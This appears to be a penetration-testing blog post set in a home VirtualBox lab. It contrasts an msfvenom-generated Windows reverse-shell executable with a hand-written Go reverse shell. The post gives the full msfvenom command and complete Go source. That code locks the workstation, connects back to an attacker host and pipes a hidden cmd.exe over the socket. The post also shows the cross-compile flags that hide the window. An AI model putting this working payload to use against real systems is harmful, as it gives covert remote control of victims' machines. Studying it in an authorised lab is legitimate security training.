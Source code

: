 ```yaml
---
layout: post
title: 'Hasty Versus Deliberate Exploits'
permalink: 'hasty-versus-deliberate-exploits'
category: posts
subcategory: vulnerability-management
---
```


An exploit is “the vehicle used to breach a system.” Penetration testing involves using exploits against friendly systems in order to highlight risks to an organization’s survivability. Although necessary, penetration testing can become an expensive evil. Some organizations may choose to rush the work of their “hired hackers” as a result, prioriting saving a dollar and checking-off a regulatory compliance requirement over gaining an accurate picture of their network security posture. In this blog post, I demonstrate the benefit of using deliberate exploit development techniques.

## Table of Contents
* [Lab Setup](#lab-setup)
* [How to Generate a Hasty Exploit with Msfvenom](#how-to-generate-a-hasty-exploit-with-msfvenom)
* [How to Write a Deliberate Exploit in Go](#how-to-write-a-deliberate-exploit-in-go)
* [How to Keep a Netcat Listener Alive Forever](#how-to-keep-a-netcat-listener-alive-forever)
* [How to Serve Files with a Python Web Server](#how-to-serve-files-with-a-python-web-server)
* [How to Test Our Exploits in a Virtual Lab](#how-to-test-our-exploits-in-virtual-lab)
* [Summary](#summary)
* [References](#references)

## Lab Setup  
I used VirtualBox to deploy two Virtual Machines (VMs) for this lab. The first VM is running Kali Linux while the second is running Microsoft Windows 10. On my Kali VM, I organized my work across three terminals: one to listen for inbound connections, another to develop/tinker with exploits, and a third to spawn a web server. Also, since Go does not natively ship with Kali Linux, you must execute the command sentence below in order to download, install, and use it.

## How to Install Go on Kali Linux
```
apt install golang
```
Lastly, I highly recommend creating and using a temporary directory as your “workbench.” It’ll help keep things tidy if you chose to follow along.

## How to create and use a temporary directory  
```
mkdir workbench
cd workbench
```

## How to Generate a Hasty Exploit with Msfvenom  
Msfvenom is one of many interfaces to the Metasploit Framework. It helps automate the process of generating and encoding a payload into a self-contained exploit. A payload is code and “represents the malicious activity an attacker wants to happen.” For example, if a thief uses a crowbar to gain physical access to a building, he is a payload while his crowbar is the exploit.

Msfvenom includes a number of parameters yet, we’re only going to focus on a few:

* CPU architecture
* Platform (as in, Operating System or OS)
* Payload
* Listening host and port
* Executable format
* Output filename

Specifying incorrect arguments (input) for our CPU architecture, platform, or executable format could cause our exploit to fail. Therefore, it is imperative we accurately identify our target machine. Execute the command sentence below to generate a quick and hasty Microsoft Windows exploit using Msfvenom (the \ symbols are totally optional and only serve to make this blog post more readable).

```bash
# how to create a hasty exploit with Msfvenom
msfvenom \
 --arch x86 \
 --platform windows \
 --payload windows/shell_reverse_tcp \
 LHOST=192.168.1.8 \
 LPORT=4444 \
 -f exe \
 -o hackmefast.exe
```

![hackmefast.gif]({{ site.url }}{{ site.baseurl }}/assets/Hasty/hackmefast.gif)

## How to Write a Deliberate Exploit in Go

Go is a general-purpose programming language developed by Google. It’s easy to read, has an “intelligent” cross-compiler (gives helpful warning/error messages as to why your code sucks), and doesn’t use a preprocessor (something that could influence how your code runs). To begin developing Go code, open a text-editor in a terminal on your Kali VM (I like to use Vim).
```
# how to open a text-editor in a terminal
vim hackmeslow.go
```
Next, mirror the code below. Our source file begins by telling the Go compiler we want a self-contained program, or a program that carries everything it needs to execute (a.k.a “statically linked,” read this for more info). We then import packages that enable our program to communicate on the network and control the OS. Within our main() function, we have three tasks we’re aiming to accomplish: lock the victim’s workstation, create a network socket, and send a Reverse Shell across it. A Reverse Shell “forces an infected machine to call the attacker and offer-up shell access to it’s operating system.” In contrast, traditional shell access requires the attacker to call the would-be infected machine and authenticate with valid credentials. A Reverse Shell is also helpful in bypassing inbound firewall rules.

To achieve our objectives, we select rundll32.exe and user32.dll, LockWorkStation as the first command sentence we want executed. For the curious, rundll32.exe is a Microsoft Windows program used for loading software libraries (like user32.dll) and accessing functions within them (such as LockWorkStation). We then leverage a Go function called net.Dial() to create a network socket, passing any errors it generates to the _ variable. This variable is also known as the “Blank Identifer” and helps satisfy some of the compiler’s pre-compilation checks. Next, we identify cmd.exe as the second command we wanted executed. After enabling the HideWindow attribute, we then point all input, output, and error “pipes” from cmd.exe to our socket. Finally, we ask for our payloads (locking the workstation and providing us remote access) to be ran.

NOTE: You can use any name you want for your variables as long as you’re consistent throughout your code (i.e., cloak, dagger, and socket).
```go
package main

import (
    "net"
    "os/exec"
    "syscall"
)

func main() {
    cloak := exec.Command("rundll32.exe", "user32.dll,", "LockWorkStation")
    socket, _ := net.Dial("tcp", "192.168.1.8:4444")
    dagger := exec.Command("cmd.exe")
    dagger.SysProcAttr = &syscall.SysProcAttr{HideWindow: true}
    dagger.Stdin = socket
    dagger.Stdout = socket
    dagger.Stderr = socket

    cloak.Run()
    dagger.Run()
}
```
To compile our source code, we could use the default values of our environment variables. Although, since we developed this exploit for a Microsoft Windows machine, we must temporarily modify them to match the platform and CPU architecture of our target. Normally, cross-compilation would be as simple as this yet, we have one more step to take.

The Go compiler provides two options for Microsoft Windows. You can go with the default option of a “console” program or ask for a “Windows GUI” program. If you chose “console,” a pop-up window will show regardless of the additional precautions we took in our source code. If you chose “Windows GUI,” these precautions will be recognized and therefore our program will run in the background with no pop-up. This nuance is addressed by Go’s linker. A linker is “responsible for incorporating the right software during compilation.” To dynamically inform the Go linker we want a “Windows GUI” program, we must invoke the -ldflags parameter and supply -H=windowsgui as our input.

Execute the command sentence below to compile the source code of our second exploit.
```bash
# how to cross-compile Go source code
env GOOS=windows GOARCH=386 go build -ldflags -H=windowsgui hackmeslow.go
```
